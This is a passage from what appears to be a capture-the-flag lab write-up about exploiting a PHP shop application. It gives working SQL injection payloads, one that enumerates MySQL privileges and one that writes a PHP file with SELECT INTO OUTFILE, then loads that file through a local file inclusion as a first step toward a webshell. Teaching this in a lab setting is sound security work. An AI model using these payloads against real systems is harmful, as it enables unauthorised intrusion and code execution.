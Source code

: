 It is interesting that it finds a stacked queries attack, rather than union injection. This is a blind technique and will run very slowly.

### Shell

#### Enumerate Permissions

I noted [above](#analysis) that the application is connecting to MySQL as the root user. It’s worth checking for what permissions that user has. Privileges are stored in the `information_schema.user_privileges` table, so I’ll inject with `id=%0A100'+union+select+1,2,group_concat(grantee, ':', privilege_type),4,5,2,7,8+from+information_schema.user_privileges;--+-1`:

![image-20240110103954519](/img/image-20240110103954519.png)

It’s a bit hard to read in that screenshot, but one privilege jumps out:

```

'root'@'localhost':FILE

```

The [FILE](https://dev.mysql.com/doc/refman/8.0/en/privileges-provided.html#priv_file) privilege:

> Affects the following operations and server behaviors:
>
> - Enables reading and writing files on the server host using the [`LOAD DATA`](https://dev.mysql.com/doc/refman/8.0/en/load-data.html) and [`SELECT ... INTO OUTFILE`](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) statements and the [`LOAD_FILE()`](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file) function. A user who has the [`FILE`](https://dev.mysql.com/doc/refman/8.0/en/privileges-provided.html#priv_file) privilege can read any file on the server host that is either world-readable or readable by the MySQL server. (This implies the user can read any file in any database directory, because the server can access any of those files.)
> - Enables creating new files in any directory where the MySQL server has write access. This includes the server’s data directory containing the files that implement the privilege tables.
> - Enables use of the `DATA DIRECTORY` or `INDEX DIRECTORY` table option for the [`CREATE TABLE`](https://dev.mysql.com/doc/refman/8.0/en/create-table.html) statement.

#### PHP POC

I want a PHP webshell. As a quick test, I’ll write a quick PHP file into `/dev/shm` with:

```

id=%0A100'+union+select+"<?php+phpinfo();+?>",2,3,4,5,6,7,8+into+outfile+"/dev/shm/0xdf.php";--+-1

```

It returns “Product does not exist!”, which means it worked. If I try to write to the same file again, it will return an empty page, which indicates failure. It doesn’t want to overwrite existing files.

I’ll now load that using the LFI identified [above](#analysis) with `http://10.10.11.229/shop/index.php?page=/dev/shm/0xdf`:

[![image-20240110110422182](/img/image-20240110110422182.png)](/img/image-20240110110422182.png)
